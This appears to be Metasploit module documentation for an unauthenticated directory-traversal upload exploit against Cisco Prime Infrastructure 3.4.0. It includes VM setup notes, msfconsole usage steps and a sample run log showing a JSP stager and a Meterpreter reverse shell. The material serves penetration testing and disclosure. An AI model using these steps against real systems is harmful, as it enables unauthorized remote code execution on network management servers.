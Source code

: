 ## Description

This module exploits a vulnerability found in Cisco Prime Infrastructure. The issue is that the TarArchive Java class the HA Health Monitor component uses does not check for any directory traversals while unpacking a Tar file, which can be abused by a remote user to leverage the UploadServlet class to upload a JSP payload to the Apache Tomcat's web apps directory, and gain arbitrary remote code execution. Note that authentication is not required to exploit this vulnerability.

## Vulnerable Application

Cisco Prime Infrastructure releases prior to 3.4.1, 3.5, and 3.6, also EPN Manager releases prior to 3.0.1. The Metasploit module is specifically designed to target CPI 3.4.0.

## Notes on Setup

While developing the exploit, I happened to run into several issues that made the process more difficut. It was really because I didn't have the best hardware to work with, but in case you are trying to set up Cisco Prime Infrastructure as VMs like me, you may want to read this first.

Special thanks to Steven Seeley (mr_me) for providing some of the most important setup notes himself.

**Hardware Requirements**

There are two machines you want to set up using the same ISO, the first is called the "primary" server, and the other is "secondary" (High Availability) server. They both require the same hardware:

* 4 CPU Cores.
* 12288 MB of RAM (12GB).
* 350GB of hard drive space, but you may still run out of it in days.
* Both VMs should be on the same network.

**SCP**

In case you want to transfer files, you will probably use scp. Before you do that, run the following script as admin on CPI. It will generate the credentials you need to scp files:

```
/opt/CSCOlumos/bin/getSCPcredentials.sh
```

By default, the CPI's SSH server's authentication method is password, you may end up running scp like this:

```
scp -r -o PreferredAuthentications=password admin@ip:/tmp/something.zip .
```

**Out of Space Issues**

Cisco Prime Infrastructure requires a lot of space on the primary server. If it ever reaches to a point where it shuts down unexpectedly, you may not be able to bring the NCS services back again (such as port 80, 443, or 8082). At least for me, I couldn't figure out. If that's the case, you may need to reinstall the VM.

**Unstable HA Connection**

Sometimes the primary and secondary may experience some difficulty staying connected. If this happens, try to do the following on both machines:

1. Run `ncs stop` to stop the services
2. Run `ncs cleanup`
3. Run `ncs start`, this may take 10 to 30 minutes to finish.
4. Finally, run `ncs status` to make sure they are talking.

If the secondary server isn't working with the primary, then the HealthMonitor service may not be in the exploitable condition.

## Verification Steps

1. Start msfconsole
2. Do `use exploit/linux/http/cpi_tararchive_upload`
3. Do `set payload` to select the preferred payload
4. `set rhosts [ip]`
5. `run`, this should give you a shell

## Scenarios

**Running the check**

```
msf exploit(linux/http/cpi_tararchive_upload) > check
[*] 192.168.0.23:8082 - The target service is running, but could not be validated.
```

**Exploiting the service**

```
msf exploit(linux/http/cpi_tararchive_upload) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading tar file (3072 bytes)
[*] Executing JSP stager...
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 3 opened (192.168.0.21:4444 -> 192.168.0.23:57127) at 2019-06-07 02:50:13 -0500
[!] This exploit may require manual cleanup of '/tmp/UdqUlWsFjp.bin' on the target
[!] This exploit may require manual cleanup of 'apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp' on the target

meterpreter > 
[+] Deleted /tmp/UdqUlWsFjp.bin
[+] Deleted apache-tomcat-8.5.16/webapps/ROOT/kmeEmkzdep.jsp
```
